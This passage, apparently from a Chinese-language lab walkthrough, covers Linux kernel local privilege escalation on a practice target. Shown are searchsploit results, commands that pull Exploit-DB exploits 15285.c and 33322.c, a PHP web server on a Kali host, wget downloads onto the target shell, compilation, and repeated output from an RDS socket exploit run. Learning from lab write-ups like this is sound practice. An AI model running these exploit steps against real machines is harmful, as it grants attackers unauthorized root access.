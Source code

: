     Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation    | linux/local/44298.c
    ```
    
    可以尝试一下这两个
    
    ```php
    Linux Kernel 2.6.36-rc8 - 'RDS Protocol' Local Privilege Escalation       | linux/local/15285.c
    Linux Kernel 2.6.x - 'pipe.c' Local Privilege Escalation (2)              | linux/local/33322.c
    ```
    
4. 在`kali`使用 `searchsploit -m <name>` 拉取下来,并且使用`php -S 0:80` 再当前目录创建web服务器（方便靶机下载）
    
    ```php
    earchsploit -m 15285.c
    earchsploit -m 33322.c
    php -S 0:80
    ```
    
5. 使用靶机的shell下载拉取下来的`payload`
    
    ```php
    // 靶机shell
    bash-4.0$ wget 192.168.75.131/33322.c // 重复操作
    
    --2024-09-19 04:51:42--  http://192.168.75.131/33322.c
    Connecting to 192.168.75.131:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 4517 (4.4K) [text/x-c]
    Saving to: `33322.c'
    
         0K ....                                                  100% 5.94M=0.001s
    
    2024-09-19 04:51:42 (5.94 MB/s) - `33322.c' saved [4517/4517]
    ```
    
6. 我自己尝试了33322.c不成功，所以再尝试15285.c
    
    ```php
    // 靶机shell
    gcc 15285.c -o 15285 // 编译
    
    ./15285 //运行
    
    ```
    
    ```php
    [*] Linux kernel >= 2.6.30 RDS socket exploit
    [*] by Dan Rosenberg
    [*] Resolving kernel addresses...
     [+] Resolved security_ops to 0xc0aa19ac
     [+] Resolved default_security_ops to 0xc0955c6c
     [+] Resolved cap_ptrace_traceme to 0xc055d9d7
     [+] Resolved commit_creds to 0xc044e5f1
     [+] Resolved prepare_kernel_cred to 0xc044e452
    [*] Overwriting security ops...
    [*] Linux kernel >= 2.6.30 RDS socket exploit
    [*] by Dan Rosenberg
    [*] Resolving kernel addresses...
     [+] Resolved security_ops to 0xc0aa19ac
     [+] Resolved default_security_ops to 0xc0955c6c
     [+] Resolved cap_ptrace_traceme to 0xc055d9d7
     [+] Resolved commit_creds to 0xc044e5f1
     [+] Resolved prepare_kernel_cred to 0xc044e452
    [*] Overwriting security ops...
    [*] Overwriting function pointer...
    [*] Linux kernel >= 2.6.30 RDS socket exploit
    [*] by Dan Rosenberg
    [*] Resolving kernel addresses...
     [+] Resolved security_ops to 0xc0aa19ac
     [+] Resolved default_security_ops to 0xc0955c6c